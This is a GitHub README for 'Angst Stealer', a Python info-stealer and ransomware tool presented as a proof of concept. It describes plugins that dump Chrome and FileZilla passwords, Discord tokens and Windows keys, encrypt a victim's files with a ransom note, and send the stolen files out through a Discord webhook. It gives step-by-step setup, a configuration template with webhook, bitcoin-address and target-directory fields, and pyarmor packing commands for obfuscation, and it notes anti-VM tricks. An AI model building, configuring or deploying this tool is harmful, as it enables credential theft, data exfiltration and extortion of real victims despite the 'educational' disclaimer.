 ## Angst Stealer
AngstStealer is a PoC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 8 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Ransomware | Encrypts all files on the victims computer, drops a note also. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |
| Cleanup | Cleans up all traces of Angst |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/Phew/angst-rewrite/` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "chrome" : True,
    "filezilla":False,
    "userdata":True,
    "discord":True,
    "ransomware" : {
        "enabled" : False,
        "target_dir" : "C:\\Users\\testuser", #remove the testuser at the end
        "extenstion" : ".angst",
        "btcAddy" : "",
        "email" : "demo.tmpacc12@gmail.com"
    }
}
```
webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
userdata -> Give information about your victim </br>
discord -> Steal discord tokens</br>
ransomware -> If enabled is set to `True` then have enabled the ransomware module. The target_dir is the directory in which you want it to encrypt. The ransomware extenstion setting just sets the output file extenstion, in this case its just `.angst`. The btcAddy and email are just options which you can toss in to be included in the ransomware note.</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### Demo
Here is a screenshot of what will be sent through the discord webhook once it is ran. The reason why not windows activation key is included is due to it being run inside a virtual machine thats not activated.
<p align="center">
  <img width="560" height="300" src="https://z.zz.fo/sHlrH.png">
</p>

### To Do List
- [ ] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [X] Implement some anti-vm tricks.
- [ ] Add more plugins

If you would like to help with something, writing plugins for Angst would be a pretty big help.

### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
